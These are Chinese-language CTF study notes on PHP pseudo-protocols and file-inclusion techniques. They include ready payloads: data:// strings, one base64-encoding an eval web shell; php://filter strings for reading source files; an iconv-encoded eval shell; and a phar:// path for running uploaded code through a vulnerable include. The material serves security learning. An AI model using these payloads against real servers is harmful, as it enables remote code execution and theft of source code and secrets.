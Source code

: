 [TOC]

[SecMap - 非常见协议大礼包 - Tr0y's Blog](https://www.tr0y.wang/2021/05/17/SecMap-非常见协议大礼包/#data)

![](https://github.com/wi1shu7/day_day_up/blob/main/daydayup.assets/20210517104415.png)



####  file://

读取本地文件，浏览器读取本地文件的时候，用的也是这个协议

####  data://

[文件包含漏洞之PHP伪协议中的data://的那些事~_Firebasky的博客-CSDN博客](https://blog.csdn.net/qq_46091464/article/details/106665358)

条件：

- `allow_url_include`: `On`
- PHP >= 5.2.0

格式：

`data:[<mediatype>][;base64],<data>`

- `<mediatype>`：可选，指定数据的媒体类型（MIME 类型），例如 `text/plain`、`image/jpeg` 等。这部分内容可以省略。
- `;base64`：可选，表示数据采用 Base64 编码。如果提供了 `;base64`，那么数据部分应该是经过 Base64 编码的。
- `<data>`：实际的数据内容。

```
?file=data://text/plain,<?php phpinfo();?>
?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2B
?file=data://text/plain;base64,PD9waHAgQGV2YWwoJF9QT1NUWydhJ10pOz8%2B
```

该协议类似于 php://input，区别在于 data:// 是直接获取后面跟着的内容。浏览器一般都支持这个协议，最常用的莫过于展示小图片了；在 CTF 中常用于执行任意 PHP 代码。

每个组件支持的会稍微有点区别，例如 `data:;,<?php phpinfo();?>` 在 Chrome 可以，但是在 PHP 不行

####  dict://

dict 协议是一个字典服务器协议，就是用来查单词的那种字典。字典服务器本来是为了让客户端使用过程中能够访问更多的字典源。

dict 协议的格式：`dict://`+`ip:端口`+`/` + `TCP/IP 数据`

与 gopher 相比，dict 携带的数据无法插入 `\r\n`（只能插入 `\\r\\n`），所以对于大部分组件来说，只能执行一条命令，所以如果一个组件可以一步一步操作（比如 redis），那么才可以利用，那么很明显，需要认证的 redis 是无法通过 dict 攻击的（即使你知道密码也没用），但是可以用来爆破密码。

####  php://

访问各个输入/输出流（I/O streams）。PHP 提供了一些杂项输入/输出（IO）流，允许访问 PHP 的输入输出流、标准输入输出和错误描述符；内存中、磁盘备份的临时文件流以及可以操作其他读取写入文件资源的过滤器。

属于 PHP 中的伪协议，受限于 php.ini 中的配置

#####  php://input

作用：访问请求的原始数据的只读流

条件：

- `allow_url_include`: `On`

- form 表单里的 enctype 不为 `multipart/form-data`（默认为 `application/x-www-form-urlencoded`）。体现在请求头里就是 Content-Type 不能为 `multipart/form-data`（文件上传）

  > Multipart 允许客户端在一次 HTTP 请求中发送多个部分（part）数据，每部分数据之间的类型可以不同。

PHP 在遇到这个伪协议的时候，会读取 POST 的数据当做内容。

比如 readfile、file_get_contents、include，都支持此伪协议。在 CTF 中常用于执行任意 PHP 代码。

#####  php://filter

作用：用于数据流打开时，对数据进行筛选、过滤。

条件：无

格式：`php://filter/[0]=[1]/resource=[2]`

其中：

- `[0]`: 可选 read/write
- `[1]`: 就是过滤器，可以设定一个或多个过滤器名称，以管道符（`|`）分隔即可。比如：`convert`、`string`，更多可参考官方文档：https://www.php.net/manual/zh/filters.php
- `[2]`: 必选的值，为要筛选过滤的数据流，通常是本地文件的路径，绝对路径和相对路径均可以使用。

示例：`php://filter/read=convert.base64-encode/resource=flag.php`

表示读取本地文件 flag.php，并进行 base64 编码。

在 CTF 中常用于读取 PHP 的源码。

```
php://filter 读取服务器中文件，并且在读的过程中会对数据进行编码

php://filter/read=convert.base64-encode/resource=要读的文件名

php://filter/convert.base64-encode/resource=要读的文件名

php://filter/string.rot13/resource=要读的文件名

file=php://filter/convert.iconv.utf-8.utf-7/resource=flag.php
iconv.从这个编码.转换到这个编码
```

>iconv ( string $in_charset , string $out_charset , string $str ) : 
>string将字符串 str 从 in_charset 转换编码到 out_charset。
>in_charset：输入的字符集。
>out_charset：输出的字符集。
>
>```php
><?php
>echo iconv("UCS-2LE","UCS-2BE",'<?php @eval($_POST[hack]);?>');
>?>
>//?<hp pe@av(l_$OPTSh[ca]k;)>?
>```

####  phar://

- 作用：属于 PHP 伪协议，phar（PHP Archive) 是 PHP 里类似于 JAR 的一种打包文件。
- 条件：
  - PHP >= 5.3.0

phar:// 的利用场景示例：

```php
<?php
  $files = $_GET['file'];
  include($files);
?>
```

对于这样的例子，先上传一个 zip 压缩包，里面是一个 txt 文件，内容是：`<?php phpinfo(); ?>`，在知道绝对路径（/www/upload/test.zip）之后，可以利用 phar:// 来执行这段代码，payload: `phar:///www/upload/test.zip/test.txt`

####  zip://

- 作用：属于 PHP 伪协议，用于访问 zip 压缩流

格式：`zip://[压缩文件绝对路径]#[压缩文件内的路径以及文件名]`